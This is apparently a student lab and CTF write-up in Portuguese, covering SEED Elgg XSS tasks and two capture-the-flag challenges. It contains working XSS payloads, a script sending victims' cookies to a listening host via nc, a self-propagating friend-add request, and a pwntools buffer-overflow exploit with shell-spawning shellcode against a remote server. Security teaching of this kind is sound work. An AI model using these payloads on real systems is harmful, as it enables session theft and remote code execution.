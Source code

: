 # TASKS
## 3.1 Preparation
Nesta tarefa, tentamos explorar a ferramenta `HTTP Header Live`. Começamos por instalá-la no browser, e após a instalação, análisámos o pedido de `login` e os pedido dos componentes `html`.
Percebemos que através da ferramenta, conseguimos analisar não só o tipo do pedido, bem como os parâmetros enviados, podendo também observar qual a resposta recebida por exemplo.

# COLOCAR IMAGEM DOS PEDIDOS

## 3.2 Task 1: Posting a Malicious Message to Display an Alert Window
Inicialmente, começamos por tentar perceber onde é que poderiamos embeber o programa `javascript` na nossa página, de forma a que este fosse executado sempre que alguém abrisse o perfil do utilizador em questão (no nosso caso, iniciamos sessão com `user: alice` e `password: seedalice`). Assim, reparamos que era possível editar o _user profile_ onde haviam vários campos onde era possível escrever texto. Como no campo `About me` era possível escrever texto em `html`, colocamos lá
```html
<script>alert('XSS')</script>
```
tal como o exercício pedia, obtendo o seguinte resultado:

<img src='../assets/LOG10TASK1.png' alt='task1-10'>

## 3.3 Task 2: Posting a Malicious Message to Display Cookies
Tal como na tarefa anterior, esta consiste em embeber `javascript` no nosso perfil, de tal forma que, quando um utilizador visualizar o nosso perfil, serão expostas as suas _cookies_ numa janela de alerta. Para a obtenção das _cookies_ apenas tivemos de aceder ao atributo `cookie` do objeto `document`, ou seja, `document.cookie` que as retorna no formato:

`pvisitor%3Dbd49b186-afdd-4310-97e8-a73a10dfd370%3B%20Elgg%3Dvgn7o23sogsro7sf07epru1itm`

Assim, para a realização desta tarefa bastou apenas alterar o conteúdo do `alert` da tarefa anterior para `document.cookie` que resultou no seguinte:
<img src="../assets/LOG10TASK2.png" alt="task2-10">

## 3.4 Task 3: Stealing Cookies from the Victim’s Machine
Nesta tarefa, o objetivo passa por, como atacante, obter as _cookies_ do utilizador que visitar a página que contém o `javascript` embebido. Para tal, o código malicioso tem que nos mandar um pedido HTTP com as cookies do utilizador.
Conseguimos isto utilizando a _tag_ `img`, modificando o atributo `src`, de forma a que no momento em que o browser tente carregar a imagem, nos envie o pedido com os dados pretendidos  (neste caso as _cookies_). 

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '>');
</script>
```

Para receber o pedido com as cookies, corremos o comando `nc -lknv 5555`, que nos coloca à escuta na porta 5555 (para onde colocamos o `javascript` embebido a enviar o pedido). Tal como esperado o pedido `get` vem com as cookies anexadas ao `URL`.

<img src="../assets/LOG10TASK3.png" alt="task3-10">

## 3.5 Task 4: Becoming the Victim’s Friend
Para a resolução desta tarefa, tivemos de perceber melhor o funcionamento das solicitações de amizade da plataforma. Assim, e recorrendo ao excerto de código que nos foi fornecido, apenas tivemos de construir o `url` que iria ser utilizado no momento do envio do pedido para o servidor para que conseguissemos enviar uma solicitação de amizade de alguém para o Samy sempre que esse alguém vistasse o seu perfil.
Deste modo, embebendo o seguinte extrato `html`na secção `About me` do perfil do Samy, no modo `Edit HTML`:
```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        var sendurl= `http://www.seed-server.com/action/friends/add?friend=59${ts}${token}`

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```
toda vez que alguém entrasse no perfil do Samy, era efetuada uma solicitação de amizade, o que levava a que o visitante e o Samy se tornassem amigos.

# CTF

## CTF 1
Para a primeira ctf, reparamos que era possível escrever numa caixa de texto, e o texto que escrevessemos ficava dentro de uma `div` estando por isso suscetível à vulnerabilidade de `XSS` embebendo `javascript` no nosso pedido. Após exploração do site foi possível verificar a existência de dois botões, aos quais o utilizador não tem acesso, mas que, pensamos que estariam disponíveis ao admin, para que este pudesse determinar o destino do nosso pedido (aceitar ou rejeitar). Como o admin teria de ler o nosso pedido, constituído pelo nosso _input_, estaria vulnerável a `XSS` que fosse por nós, lá embebido.
Após inspeção do HTML foi possível determinar que o botão `give the flag` (que seria utilizado pelo admin para aceitar a justificação e, portanto, enviar a _flag_) tinha como id `give_flag` pelo que o pedido que deviamos enviar na caixa de texto seria:
```html
<script> document.getElementById('give_flag').click() </script>
``` 
Assim quando o admin fosse avaliar o pedido, o script corria e clicava automaticamente no botão para dar a flag, aceitando a nossa justificação.

## CTF 2
Após corrermos o `checksec` no `program`, reparamos que a única medida de proteção era o `PIE` estar _enabled_ (sendo possível a execução na _stack_) o que nos teria de levar a ser mais cuidadosos, porque o _buffer_ não tinha sempre o mesmo endereço de memória (pois os endereços eram gerados aleatoriamente a cada execução). No entanto o próprio programa dava _leak_ do endereço do _buffer_ o que nos facilita o _exploit_.
Após corrermos o `gdb` da seguinte forma:

<img src='../assets/LOG10CTF2-1.png' alt='ctf2-10'>

conseguimos obter o _offset_ do endereço de retorno:

<img src='../assets/LOG10CTF2-2.png' alt='ctf2-10'>

que neste caso é `108`. 

Assim para construirmos a `payload` precisamos primeiramente de `shellcode` que abra uma _shell_. Este `shellcode` irá ser posicionado no fim da `payload` precedido de `NOP's` de forma a aumentar as chances de sucesso. Utilizando a biblioteca `pwn tools` podemos ler o _leak_ do programa e usá-lo para construir a nossa `payload`. Assim, podemos fazer com que o nosso endereço de retorno seja `&buffer + 128` (de forma a que o endereço de retorno aponte para um `NOP`, pois irá a apontar para uma área por nós preenchida).
Deste modo, o programa irá de `NOP` em `NOP` até chegar ao nosso shellcode que abre uma _shell_.
O _script_ `Python` realiza o que foi descrito anteriormente: 

```python
#!/usr/bin/python3
import sys
from pwn import *  
p = remote("ctf-fsi.fe.up.pt", 4001)

line1 = p.recvline() #1st output line
line2 = p.recvuntil("s ") #2nd output line without adrress
line3 = p.recvuntil(".") #Buffer address with .
line3 = line3[:-1] #Buffer address

# Shellcode to open a shell
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(4096))

##################################################################
# Put the shellcode somewhere in the payload
start = 4050            # End of content 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret  = int(line3.decode("utf-8"),16) + 128     # Where to return 
offset = 108             # Offset 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################
p.sendline(content)
p.interactive()
```

Por fim, com a nova _shell_ aberta, basta executar `cat flag.txt` para obtermos a _flag_. 

